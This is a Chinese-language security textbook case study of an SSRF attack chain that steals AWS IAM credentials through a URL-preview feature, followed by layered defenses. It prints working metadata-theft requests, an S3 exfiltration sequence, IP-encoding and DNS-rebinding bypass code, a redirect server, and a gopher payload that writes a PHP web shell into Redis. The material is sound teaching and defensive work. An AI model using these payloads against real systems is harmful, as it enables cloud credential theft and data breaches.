



## 14.23 案例三：云服务SSRF攻击链

### 背景

某SaaS平台提供URL预览功能——用户在富文本编辑器中粘贴URL后，后端服务会自动抓取该URL的标题、描述和缩略图，生成卡片式预览。这是一个典型的"用户输入URL → 服务器发起HTTP请求"的交互模式。

该平台运行在AWS EC2实例上，使用IAM角色绑定的方式向AWS SDK提供凭据。后端服务对用户提交的URL仅做了基本的格式校验（是否以`http://`或`https://`开头），未检查目标地址是否为内网或云元数据端点。

攻击者利用此功能实施SSRF攻击，最终获取了云服务器的IAM临时凭据，进而访问了生产环境S3存储桶中的客户数据。这是2019年Capital One数据泄露事件的同类攻击向量——那次事件影响了超过1亿用户数据，AWS元数据服务的SSRF利用是最经典的云安全攻击链之一。



### 云元数据服务原理

要理解这条攻击链，首先需要了解云元数据服务（Instance Metadata Service, IMDS）的设计目的和工作原理。

#### 什么是元数据服务

云计算环境中，虚拟机实例经常需要获取自身的信息——实例ID、所在可用区、安全组、IAM角色等。元数据服务提供了一个HTTP接口，让实例可以通过`http://169.254.169.254/`（链路本地地址）访问这些信息，无需额外的认证。

| 云厂商 | 元数据端点 | 特征 |
|--------|-----------|------|
| AWS | `http://169.254.169.254/latest/meta-data/` | 返回纯文本树形结构 |
| GCP | `http://metadata.google.internal/computeMetadata/v1/` | 需要`Metadata-Flavor: Google`请求头 |
| Azure | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` | 需要`Metadata: true`请求头 |
| 阿里云 | `http://100.100.100.200/latest/meta-data/` | 结构类似AWS |

#### 为什么元数据服务危险

当虚拟机绑定了IAM角色（AWS）或服务账号（GCP），元数据服务会返回临时凭据——Access Key、Secret Key和Session Token。这些凭据用于访问云资源（S3、RDS、SQS等），如果被攻击者获取，就等于获得了该IAM角色的所有权限。

核心问题在于：元数据服务是一个仅通过网络位置（链路本地地址）而非身份认证来保护的接口。任何能从实例内部发出HTTP请求的代码，都能访问它——SSRF恰好提供了这个能力。

#### IMDSv1 与 IMDSv2

AWS在2019年Capital One事件后推出了IMDSv2：

| 特性 | IMDSv1 | IMDSv2 |
|------|--------|--------|
| 访问方式 | 直接HTTP GET | 需先PUT获取Token |
| 防SSRF | 不防 | PUT请求无法通过SSRF触发 |
| 请求头 | 无特殊要求 | 需要`X-aws-ec2-metadata-token` |
| 响应头保护 | 无 | 无（Token保护） |
| 默认状态 | AWS默认启用（新实例默认两者都支持） | 需显式强制仅v2 |

IMDSv2的防护原理：攻击者通过SSRF只能发起GET请求（通过``、`fetch`等），而IMDSv2要求先用PUT请求获取Token，再用Token发起后续请求。由于大多数SSRF向量无法发起PUT请求，IMDSv2能有效阻断攻击链。

但IMDSv2并非万能——如果SSRF点支持自定义HTTP方法（如通过curl命令注入、gopher协议），仍可能绕过。因此IMDSv2是纵深防御的一层，不是唯一防线。

### 攻击链详解

#### 第一步：发现SSRF点

攻击者注意到URL预览功能的API端点：

```http
POST /api/url-preview HTTP/1.1
Host: target-saas.com
Content-Type: application/json
Authorization: Bearer <legitimate-token>

{"url": "http://example.com"}
```

正常响应返回：
```json
{
  "title": "Example Domain",
  "description": "This domain is for use in illustrative examples...",
  "thumbnail": "data:image/png;base64,..."
}
```

攻击者将URL替换为云元数据地址：

```http
POST /api/url-preview HTTP/1.1
Content-Type: application/json

{"url": "http://169.254.169.254/latest/meta-data/"}
```

服务器返回了AWS元数据根路径的内容：
```text
ami-id
ami-launch-index
ami-manifest-path
hostname
iam/
instance-action
instance-id
instance-type
local-hostname
local-ipv4
placement/
public-hostname
public-ipv4
security-groups
```

确认SSRF漏洞存在，且服务器可以直接访问元数据服务。

#### 第二步：探测IAM角色

逐步深入元数据路径，获取IAM角色信息：

```json
// 请求：获取IAM角色名
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
// 响应：
"s3-access-role"
```

```json
// 请求：获取临时凭据
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/s3-access-role"}
// 响应：
{
  "Code": "Success",
  "LastUpdated": "2024-01-15T11:45:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "FwoGZXIvYXdzE...",
  "Expiration": "2024-01-15T12:00:00Z"
}
```

这三件套（AccessKeyId + SecretAccessKey + Token）就是完整的AWS临时凭据。Token在Expiration时间前有效，通常为6-12小时。

#### 第三步：横向探测

获取凭据后，攻击者首先探测该IAM角色的权限边界：

```bash
# 配置凭据
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=FwoGZXIvYXdzE...

# 探测权限：列出当前身份和附加策略
aws sts get-caller-identity
# 输出：
# {
#   "UserId": "AROA...:i-0abc123def456",
#   "Account": "123456789012",
#   "Arn": "arn:aws:sts::123456789012:assumed-role/s3-access-role/i-0abc123def456"
# }

# 尝试列出S3存储桶
aws s3 ls
# 2023-06-01 10:00:00 app-production-data
# 2023-03-15 08:00:00 app-backup-bucket
# 2023-01-20 14:00:00 customer-uploads

# 查看存储桶内容
aws s3 ls s3://app-production-data/
# PRE customer-records/
# PRE financial-reports/
# config.json
```

#### 第四步：数据外泄

```bash
# 下载生产数据
aws s3 sync s3://app-production-data/customer-records/ ./stolen-data/customers/
aws s3 sync s3://app-production-data/financial-reports/ ./stolen-data/finance/
aws s3 cp s3://app-production-data/config.json ./stolen-data/

# 检查是否有更高权限的资源
aws ec2 describe-instances
aws rds describe-db-instances
aws secretsmanager list-secrets
```

### 多云环境下的SSRF利用

虽然本案例发生在AWS环境，但SSRF对云元数据服务的利用在所有主流云平台上都存在。了解多云环境的差异对于安全测试和防御至关重要。

#### GCP元数据利用

GCP的元数据服务需要在请求头中包含`Metadata-Flavor: Google`，这提供了一定的额外防护：

```json
// GCP元数据请求示例（需要通过支持自定义Header的SSRF点）
{"url": "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token",
 "headers": {"Metadata-Flavor": "Google"}}
```

```json
// GCP临时凭据响应
{
  "access_token": "ya29.c.c0ASRK0G...",
  "expires_in": 3599,
  "token_type": "Bearer"
}
```

GCP的另一个风险点是项目元数据中的自定义属性（startup scripts、SSH keys）：

```text
http://metadata.google.internal/computeMetadata/v1/project/attributes/startup-script
http://metadata.google.internal/computeMetadata/v1/project/attributes/ssh-keys
```

#### Azure元数据利用

Azure的实例元数据服务需要`Metadata: true`请求头：

```text
http://169.254.169.254/metadata/instance?api-version=2021-02-01
```

Azure还有一个额外的攻击面——Azure IMDS可以签发OAuth2令牌：

```text
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
```

#### 阿里云元数据利用

阿里云的元数据地址是`100.100.100.200`而非标准的`169.254.169.254`：

```text
http://100.100.100.200/latest/meta-data/ram/security-credentials/
```

阿里云RAM角色的临时凭据格式：
```json
{
  "Code": "Success",
  "AccessKeyId": "STS...",
  "AccessKeySecret": "...",
  "SecurityToken": "...",
  "Expiration": "2024-01-15T12:00:00Z"
}
```

### SSRF绕过技巧详解

在实际渗透测试中，目标通常会有各种防护措施。以下是常见的SSRF绕过技术：

#### IP地址编码绕过

当服务器对`169.254.169.254`进行字符串匹配过滤时：

| 绕过方式 | Payload示例 | 说明 |
|---------|------------|------|
| 十进制 | `http://2852039166/` | IP的32位整数表示 |
| 十六进制 | `http://0xa9fea9fe/` | 每段用十六进制 |
| 八进制 | `http://0251.0376.0251.0376/` | 每段用八进制 |
| 混合编码 | `http://0xa9.254.0251.254/` | 不同段用不同编码 |
| IPv6 | `http://[::ffff:a9fe:a9fe]/` | IPv4-mapped IPv6 |
| 带@符号 | `http://attacker.com@169.254.169.254/` | URL中的userinfo |

```python
# Python编码生成脚本
import struct, socket

ip = "169.254.169.254"
# 十进制
decimal = struct.unpack("!I", socket.inet_aton(ip))[0]
print(f"Decimal: {decimal}")  # 2852039166

# 十六进制
hex_ip = ".".join(f"0x{int(octet):02x}" for octet in ip.split("."))
print(f"Hex: {hex_ip}")  # 0xa9.0xfe.0xa9.0xfe

# 八进制
oct_ip = ".".join(f"0{int(octet):o}" for octet in ip.split("."))
print(f"Octal: {oct_ip}")  # 0251.0376.0251.0376
```

#### DNS重绑定攻击

DNS重绑定是最强大的SSRF绕过技术之一，它利用了DNS解析和IP验证之间的时间差：



实施方法：

```python
# 使用rbndr工具进行DNS重绑定
# 安装：pip install dnslib

from dnslib.server import DNSServer, DNSHandler
from dnslib import RR, QTYPE, A
import random
import time

class RebindResolver:
    def __init__(self, first_ip, second_ip):
        self.first_ip = first_ip      # "8.8.8.8" - 验证时返回
        self.second_ip = second_ip    # "169.254.169.254" - 利用时返回
        self.start_time = time.time()
    
    def resolve(self, request, handler):
        reply = request.reply()
        qname = request.q.qname
        
        # 前5秒返回安全IP，之后返回目标IP
        elapsed = time.time() - self.start_time
        ip = self.first_ip if elapsed < 5 else self.second_ip
        
        reply.add_answer(RR(qname, QTYPE.A, rdata=A(ip), ttl=1))
        return reply
```

在线工具：[rbndr](https://lock.cmpxchg8b.com/rebinder.html) 可以快速配置DNS重绑定。

#### 重定向绕过

当服务器验证URL的最终目标是否在白名单中，但没有检查中间重定向时：

```python
# 在攻击者服务器上设置重定向（如 /redirect.py）
# 访问 http://attacker.com/redirect.py → 302 → http://169.254.169.254/

from http.server import HTTPServer, BaseHTTPRequestHandler

class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', 'http://169.254.169.254/latest/meta-data/')
        self.end_headers()

HTTPServer(('0.0.0.0', 80), RedirectHandler).serve_forever()
```

服务端验证逻辑的缺陷：
```python
# 危险的实现：只验证初始URL
def preview_url(user_url):
    parsed = urlparse(user_url)
    if parsed.hostname not in ALLOWED_DOMAINS:
        return "Domain not allowed"
    # 危险：跟随重定向时不重新验证
    response = requests.get(user_url, allow_redirects=True)
    return response.text
```

#### 协议利用绕过

当HTTP请求被封锁时，可以尝试其他协议：

```text
# file协议 - 读取本地文件
file:///etc/passwd
file:///proc/self/environ     # 环境变量（可能含密钥）
file:///proc/self/cgroup      # 容器信息

# gopher协议 - 发送任意TCP数据
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0a%0a<%3Fphp system($_GET['cmd'])%3B %3F>%0a%0a%0d%0a$4%0d%0asave%0d%0a

# dict协议 - 交互式字典服务
dict://127.0.0.1:6379/info
```

### 影响评估

本案例中的攻击链造成了多层面的严重后果：

**数据泄露**：攻击者获取了`app-production-data`存储桶中的全部内容，包括客户个人信息（姓名、邮箱、地址、电话）和财务报告。根据存储桶大小和数据量估算，影响范围涉及数万用户的敏感数据。

**横向移动**：IAM角色`s3-access-role`的权限过于宽泛，除了S3访问外还附加了`ec2:DescribeInstances`和`rds:DescribeDBInstances`权限。攻击者可以进一步探测EC2实例和RDS数据库的信息，为更深入的攻击做准备。

**持久化风险**：如果IAM角色的权限允许创建新的Access Key或修改安全组规则，攻击者可以在云环境中建立持久化后门。

**合规影响**：涉及个人数据泄露，触发GDPR、CCPA等数据保护法规的通报义务，可能面临监管罚款和用户诉讼。

**信任危机**：作为SaaS平台，客户数据泄露直接损害平台信誉，可能导致大规模客户流失。

### 防御体系

针对云环境SSRF的防御需要多层次、纵深的策略：

#### 第一层：输入验证与过滤

```python
import ipaddress
from urllib.parse import urlparse
import socket
import re

class SSRFProtector:
    """SSRF防护模块 - 输入验证层"""
    
    # 保留IP地址段（RFC 5735/RFC 6890）
    BLOCKED_RANGES = [
        ipaddress.ip_network('10.0.0.0/8'),          # 私有A类
        ipaddress.ip_network('172.16.0.0/12'),       # 私有B类
        ipaddress.ip_network('192.168.0.0/16'),      # 私有C类
        ipaddress.ip_network('169.254.0.0/16'),      # 链路本地（含元数据）
        ipaddress.ip_network('127.0.0.0/8'),         # 环回地址
        ipaddress.ip_network('0.0.0.0/8'),           # 当前网络
        ipaddress.ip_network('100.64.0.0/10'),       # CGNAT
        ipaddress.ip_network('192.0.0.0/24'),        # IETF协议分配
        ipaddress.ip_network('192.0.2.0/24'),        # TEST-NET-1
        ipaddress.ip_network('198.51.100.0/24'),     # TEST-NET-2
        ipaddress.ip_network('203.0.113.0/24'),      # TEST-NET-3
        ipaddress.ip_network('224.0.0.0/4'),         # 多播
        ipaddress.ip_network('240.0.0.0/4'),         # 保留
        ipaddress.ip_network('::1/128'),              # IPv6环回
        ipaddress.ip_network('fc00::/7'),             # IPv6私有
        ipaddress.ip_network('fe80::/10'),            # IPv6链路本地
    ]
    
    # 允许的URL白名单（可选，更安全）
    ALLOWED_DOMAINS = [
        'example.com',
        'api.example.com',
    ]
    
    @classmethod
    def validate_url(cls, url, use_whitelist=True):
        """
        验证URL是否安全可访问。
        
        Args:
            url: 用户提供的URL
            use_whitelist: 是否使用域名白名单（更安全）
            
        Returns:
            tuple: (is_safe: bool, reason: str)
        """
        # 1. 基本格式校验
        try:
            parsed = urlparse(url)
        except Exception:
            return False, "URL格式无效"
        
        if parsed.scheme not in ('http', 'https'):
            return False, f"不允许的协议: {parsed.scheme}"
        
        if not parsed.hostname:
            return False, "URL缺少主机名"
        
        # 2. 域名白名单检查
        if use_whitelist:
            hostname = parsed.hostname.lower()
            if not any(hostname == d or hostname.endswith(f'.{d}') 
                      for d in cls.ALLOWED_DOMAINS):
                return False, f"域名不在白名单中: {hostname}"
        
        # 3. SSRF payload模式检测
        dangerous_patterns = [
            r'169\.254\.',            # AWS元数据
            r'metadata\.google',       # GCP元数据
            r'100\.100\.100\.200',     # 阿里云元数据
            r'localhost',              # 本地
            r'0\.0\.0\.0',            # 任意地址
            r'\[::1\]',               # IPv6环回
        ]
        for pattern in dangerous_patterns:
            if re.search(pattern, url, re.IGNORECASE):
                return False, f"URL包含危险模式: {pattern}"
        
        # 4. DNS解析与IP验证
        try:
            # 获取所有解析结果（防范DNS重绑定的一部分）
            infos = socket.getaddrinfo(
                parsed.hostname, None, socket.AF_UNSPEC, socket.SOCK_STREAM
            )
            for family, _, _, _, sockaddr in infos:
                ip = ipaddress.ip_address(sockaddr[0])
                for network in cls.BLOCKED_RANGES:
                    if ip in network:
                        return False, f"解析到保留IP: {ip} ({network})"
        except socket.gaierror:
            return False, "DNS解析失败"
        
        return True, "URL验证通过"
    
    @classmethod
    def safe_fetch(cls, url, timeout=10, max_redirects=0):
        """
        安全地获取URL内容。
        
        关键点：
        - 禁用自动重定向（防止重定向绕过）
        - 限制响应大小
        - 不暴露内部错误信息
        """
        import requests
        
        is_safe, reason = cls.validate_url(url)
        if not is_safe:
            raise ValueError(f"URL安全检查失败: {reason}")
        
        # 禁用重定向，手动处理以验证每一步
        response = requests.get(
            url, 
            timeout=timeout, 
            allow_redirects=False,
            headers={'User-Agent': 'URLPreview/1.0'}
        )
        
        # 如果是重定向，验证重定向目标
        if response.is_redirect:
            redirect_url = response.headers.get('Location')
            if redirect_url:
                is_safe, reason = cls.validate_url(redirect_url)
                if not is_safe:
                    raise ValueError(f"重定向目标不安全: {reason}")
                # 递归获取（限制次数）
                if max_redirects > 0:
                    return cls.safe_fetch(redirect_url, timeout, max_redirects - 1)
                raise ValueError("重定向次数超限")
        
        # 限制响应大小（防止DoS）
        max_size = 1024 * 1024  # 1MB
        content = response.content[:max_size]
        
        return response.status_code, dict(response.headers), content
```

#### 第二层：网络隔离

仅靠输入验证不足以防御所有SSRF绕过。网络层的隔离是关键的纵深防御措施：

```yaml
# AWS安全组配置示例：限制应用服务器的出站访问
# 只允许访问必要的外部服务，禁止访问元数据服务

# 使用VPC端点策略限制S3访问范围
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {"AWS": "arn:aws:iam::123456789012:role/app-role"},
      "Action": "s3:GetObject",
      "Resource": [
        "arn:aws:s3:::app-public-assets",
        "arn:aws:s3:::app-public-assets/*"
      ]
    }
  ]
}
```

```bash
# 使用iptables在操作系统层面阻止访问元数据服务
# 即使应用存在SSRF，也无法到达169.254.169.254
iptables -A OUTPUT -d 169.254.169.254 -m owner --uid-owner appuser -j DROP
iptables -A OUTPUT -d 100.100.100.200 -m owner --uid-owner appuser -j DROP

# 也可以通过网络命名空间隔离（容器环境）
# 在Docker中默认不暴露host网络，但需要确保没有--net=host
```

#### 第三层：强制IMDSv2

```bash
# 强制EC2实例仅使用IMDSv2
aws ec2 modify-instance-metadata-options \
    --instance-id i-0abc123def456 \
    --http-token required \
    --http-endpoint enabled \
    --http-put-response-hop-limit 1

# 验证配置
aws ec2 describe-instances --instance-ids i-0abc123def456 \
    --query 'Reservations[0].Instances[0].MetadataOptions'
```

```python
# IMDSv2的使用方式（攻击者无法通过SSRF完成）
import requests

# 第一步：PUT请求获取Token（SSRF无法发起PUT）
token_response = requests.put(
    'http://169.254.169.254/latest/api/token',
    headers={'X-aws-ec2-metadata-token-ttl-seconds': '21600'},
    timeout=1
)
token = token_response.text

# 第二步：使用Token访问元数据（需要携带Token请求头）
metadata_response = requests.get(
    'http://169.254.169.254/latest/meta-data/',
    headers={'X-aws-ec2-metadata-token': token}
)
```

#### 第四层：IAM最小权限

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowOnlySpecificBucket",
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::app-public-assets",
        "arn:aws:s3:::app-public-assets/*"
      ],
      "Condition": {
        "IpAddress": {
          "aws:SourceIp": ["203.0.113.0/24"]
        }
      }
    },
    {
      "Sid": "DenyMetadataAccess",
      "Effect": "Deny",
      "Action": "*",
      "Resource": "*",
      "Condition": {
        "StringEquals": {
          "aws:RequestedRegion": ""
        }
      }
    }
  ]
}
```

关键原则：
- 每个应用/服务使用独立的IAM角色，不共享
- 遵循最小权限原则，只授予必要的S3路径访问权限
- 不附加`iam:*`、`ec2:*`等宽泛权限
- 使用权限边界（Permission Boundary）限制最大权限
- 定期审计IAM角色的附加策略

#### 第五层：监控与检测

```python
# CloudWatch告警：检测异常的元数据访问
# AWS CloudTrail日志分析

import boto3
from datetime import datetime, timedelta

def detect_suspicious_metadata_access():
    """检测可疑的元数据服务访问模式"""
    cloudtrail = boto3.client('cloudtrail')
    
    response = cloudtrail.lookup_events(
        LookupAttributes=[
            {
                'AttributeKey': 'EventName',
                'AttributeValue': 'GetCallerIdentity'
            }
        ],
        StartTime=datetime.utcnow() - timedelta(hours=1),
        EndTime=datetime.utcnow(),
        MaxResults=100
    )
    
    # 检测异常模式
    alerts = []
    for event in response['Events']:
        detail = json.loads(event['CloudTrailEvent'])
        # 如果STS调用来自非预期的IP或角色
        if detail.get('sourceIPAddress', '').startswith('10.'):
            alerts.append({
                'type': 'internal_sts_call',
                'time': event['EventTime'],
                'source': detail['sourceIPAddress'],
                'role': detail['userIdentity'].get('arn', 'unknown')
            })
    
    return alerts
```

```bash
# 使用VPC Flow Logs检测异常出站连接
# 记录所有到169.254.169.254的连接
aws ec2 create-flow-logs \
    --resource-type NetworkInterface \
    --resource-ids eni-0abc123def456 \
    --traffic-type ALL \
    --log-destination-type cloud-watch-logs \
    --log-group-name /vpc/flow-logs \
    --deliver-logs-permission-arn arn:aws:iam::123456789012:role/vpc-flow-log-role
```

### SSRF防御对比总结

| 防御层次 | 措施 | 防护效果 | 绕过难度 |
|---------|------|---------|---------|
| 输入验证 | URL白名单、IP黑名单 | 基础防护 | 低（DNS重绑定可绕过） |
| 协议限制 | 只允许http/https | 阻止file/gopher | 低 |
| 网络隔离 | iptables/VPC/容器网络 | 强力防护 | 中（需其他漏洞配合） |
| IMDSv2 | 强制Token认证 | 阻止GET型SSRF | 中（支持PUT的SSRF可绕过） |
| IAM最小权限 | 限制角色权限范围 | 限制爆炸半径 | 高 |
| 监控告警 | CloudTrail + VPC Flow Logs | 事后检测 | 高 |
| 代理网关 | 独立URL抓取服务 | 集中防护 | 高 |

### SSRF测试实战检查清单

在渗透测试中，SSRF是高价值目标。以下是系统化的测试流程：



**测试清单：**

1. **识别SSRF入口点**
   - URL预览/抓取功能
   - PDF生成（HTML转PDF支持图片加载）
   - Webhook配置
   - 文件导入（CSV/XLSX中的URL公式）
   - XML解析（XXE可导致SSRF）
   - 头像上传（支持URL导入）
   - OAuth回调URL

2. **基础SSRF验证**
   - 使用Burp Collaborator或自建服务器验证外带请求
   - 测试`http://127.0.0.1:PORT`访问本地服务
   - 测试`http://169.254.169.254`访问元数据

3. **绕过测试**
   - IP编码变形
   - DNS重绑定
   - 重定向绕过
   - 协议切换（file/gopher/dict）
   - URL解析差异利用

4. **影响扩大化**
   - 枚举元数据路径获取IAM凭据
   - 利用凭据访问云资源
   - 扫描内网识别其他服务

### 真实世界案例参考

**Capital One数据泄露（2019年）**

这是SSRF导致的最严重的云安全事件之一：
- 攻击者通过WAF配置中的SSRF漏洞访问了AWS元数据服务
- 获取了附加在WAF所在EC2实例上的IAM角色凭据
- 该角色拥有过多的S3权限，可访问超过700个存储桶
- 影响超过1亿用户和600万加拿大客户的个人信息
- Capital One被罚款8000万美元

**教训**：即使是最成熟的企业，如果IAM权限配置不当且未强制IMDSv2，也会因SSRF导致灾难性后果。

**Shopify SSRF（2020年）**

研究人员通过Shopify的合作伙伴应用发现了一个SSRF漏洞，能够访问GCP元数据服务。GCP的元数据服务需要额外的请求头（`Metadata-Flavor: Google`），但Shopify的代码恰好在请求中保留了原始的请求头，使得攻击得以成功。

**教训**：云元数据服务的额外认证要求（如GCP的请求头）不应被视为唯一的防护措施。

### 本案例的防御要点

本案例揭示了三个核心问题：

**第一，信任边界的缺失**。URL预览功能将用户输入直接转化为服务端的HTTP请求，未建立信任边界。任何接受用户URL并由服务端发起请求的功能，本质上都在为攻击者提供一个HTTP代理。

**第二，云环境的独特风险**。传统SSRF的典型目标是内网Web服务，但在云环境中，元数据服务提供了一个高价值的、无需认证的目标。IAM临时凭据的获取等于获得了云资源的访问权限，这使得SSRF的影响力成倍放大。

**第三，纵深防御的必要性**。单一的防御措施（如仅做IP过滤）无法应对所有绕过技术。输入验证、网络隔离、IMDSv2、IAM最小权限、监控告警——这些层次需要同时部署，才能有效降低SSRF在云环境中的风险。

***

> **延伸阅读**：AWS官方的[EC2实例元数据安全最佳实践](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)、OWASP SSRF Prevention Cheat Sheet、以及[Securing instance metadata on AWS](https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/)博客文章。
